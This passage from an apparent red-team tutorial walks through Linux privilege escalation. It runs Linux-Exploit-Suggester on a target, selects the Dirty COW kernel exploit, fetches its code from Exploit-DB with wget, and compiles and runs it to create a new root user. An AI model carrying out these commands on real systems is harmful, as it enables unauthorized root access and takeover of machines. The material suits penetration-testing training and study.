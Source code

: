 After downloading the script onto the target system, we will need to provide the script with executable permissions, this can be done by running the following command:

```bash
chmod +x /tmp/les.sh
```

We can now execute the script on the target system by running the following command:

```bash
./les.sh
```

As shown in the following screenshot, the script will output a list of vulnerabilities that affect the target’s specific kernel version and distribution.

![](../../assets/img/redteam/priv9.png)

The results sort the exploits based on probability of success, whereby the exploits listed first offer the highest chances of success, in this case, we are able to identify the “dirtycow” exploit as a good candidate as it meets the distribution and kernel version requirements.

Linux-Exploit-Suggester also provides you with reference links that explain how the exploit work and what vulnerability they are exploiting, in addition to this, it also provides you with the download link for the exploit code.

You can download the “dirtycow” exploit code on our Kali VM for analysis by opening the following link: [https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

After downloading the exploit code, we open it up with a text editor for analysis. As shown in the following screenshot, the exploit code contains various comments that explain how it works and how it can be compiled.

![](../../assets/img/redteam/priv10.png)

This exploit creates a new user account with root privileges and does this by using the exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line. The user on the target system will be prompted for the new password when the binary is run. After running the exploit you should be able to login with the newly created user.

Now that we have an understanding of how this exploit works, we can transfer it over to the target and compile it. This can be done by running the following command:

```bash
wget https://www.exploit-db.com/download/40839
```

After transferring the exploit code to the target server, we can compile it with GCC (GNU C Compiler) by running the following command:

```bash
gcc -pthread 40839.c -o exploit -lcrypt
```

```bash
chmod +x exploit
```

```bash
`./exploit
```
